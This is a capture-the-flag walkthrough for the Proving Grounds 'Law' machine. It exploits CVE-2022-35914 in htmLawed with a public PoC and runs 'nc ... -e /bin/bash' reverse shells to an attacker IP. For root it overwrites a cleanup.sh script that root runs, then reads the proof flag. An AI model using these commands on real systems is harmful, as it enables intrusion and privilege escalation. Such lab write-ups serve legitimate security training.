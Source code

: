 	`Running all scans on 192.168.231.190`

`Host is likely running Unknown OS!`

`---------------------Starting Port Scan-----------------------`

`PORT   STATE SERVICE`
`22/tcp open  ssh`
`80/tcp open  http`

![[Pasted image 20240217221211.png]]

Find out we're working with htmlawed 1.2.5

Do the Google search
![[Pasted image 20240217221346.png]]

Check out the cosad3s PoC
https://github.com/cosad3s/CVE-2022-35914-poc/blob/main/CVE-2022-35914.py

Our htmLawedTest.php is just index.php so we have to edit this a little

On line 37 we need to change /vendor/htmlawed/htmlawed/htmLawedTest.php to /index.php

Try our PoC with a reverse shell
`┌──(user㉿kalipurple)-[~/Offsec/ProvingGrounds/Law]`
`└─$ python poc.py -u http://192.168.231.190 -c 'nc 192.168.45.222 4444 -e /bin/bash'`

Catch and upgrade
`└─$ nc -nlvp 4444`
`Ncat: Version 7.94SVN ( https://nmap.org/ncat )`
`Ncat: Listening on [::]:4444`
`Ncat: Listening on 0.0.0.0:4444`
`Ncat: Connection from 192.168.231.190:36172.`
`python3 -c 'import pty; pty.spawn("/bin/bash")'`
`www-data@law:/var/www/html$` 

No SUID executables, no sudo -l, no crontab, no other users in /etc/passwd or /home directory.

If we go up 1 directory from the login home, we see some interesting stuff.
`www-data@law:/var/www$ ls`
`ls`
`cleanup.sh  html  local.txt`

Not sure what these do but remember them.
Nothing interesting in linpeas or lse.

If we run pspy for a few minutes, we see root (UID=0) is running the cleanup script.
![[Pasted image 20240217222116.png]]

Replace the cleanup script with a script of our own
`cat cleanup.sh`
`cat cleanup.sh`
`#!/bin/bash`

`nc 192.168.45.222 4445 -e /bin/bash`

Listen and catch the reverse shell
`└─$ nc -nlvp 4445` 
`Ncat: Version 7.94SVN ( https://nmap.org/ncat )`
`Ncat: Listening on [::]:4445`
`Ncat: Listening on 0.0.0.0:4445`

`Ncat: Connection from 192.168.231.190:49382.`
`whoami`
`root`
`python3 -c 'import pty; pty.spawn("/bin/bash")'`
`root@law:~# cd /root`
`cd /root`
`root@law:~# ls`
`ls`
`email3.txt  proof.txt`
`root@law:~# cat proof.txt`
`cat proof.txt`
`b5a5412d6179d87deb0acf6aaec02bb6`
